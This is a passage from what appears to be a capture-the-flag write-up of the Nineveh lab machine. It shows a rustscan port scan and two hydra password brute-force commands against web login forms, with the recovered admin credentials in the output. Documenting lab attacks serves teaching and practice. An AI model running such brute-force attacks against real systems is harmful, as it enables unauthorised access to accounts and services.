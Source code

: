 Seems we got the private and public key for ssh login for user amrois. Note that another tool we could’ve used here is binwalk.

Also data that keeps repeating, let’s make a note:

```bash
13126060277
www-data
```

We try the numbers and username amrois and see whether that logs us in in any of the sites. Did not work.

Let’s run another scan:

```bash
rustscan -a 10.10.10.43 --ulimit 5000
```

No additional ports found.

At this point, we just have to attempt to bruteforce it. Let’s us hydra. First copy the parameters form burp:

![image.png]({{ site.baseurl }}/assets/nineveh/image%205.png)

```bash
hydra -l admin -P /usr/share/seclists/Passwords/Common-Credentials/2023-200_most_used_passwords.txt -f 10.10.10.43 https-post-form "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:F=Incorrect" -t 64
```

Hydra forces us to do a user so -l is speicified

```bash
[443][http-post-form] host: 10.10.10.43   login: admin   password: password123
```

We are in. Before we move on, we should see if the same password works on the http site as well. Nope. Let’s also attempt to bruteforce it while we dive in the phpliteadmin site.

The burp request is:

```bash
POST /department/login.php HTTP/1.1
username=admin&password=password123

hydra -l admin -P /usr/share/seclists/Passwords/Common-Credentials/2023-200_most_used_passwords.txt -f 10.10.10.43 http-post-form "/department/login.php:username=^USER^&password=^PASS^:F=Invalid" -t 64

[80][http-post-form] host: 10.10.10.43   login: admin   password: 1q2w3e4r5t

```

We are also in.

Going back to phpliteadmin:

![image.png]({{ site.baseurl }}/assets/nineveh/image%206.png)

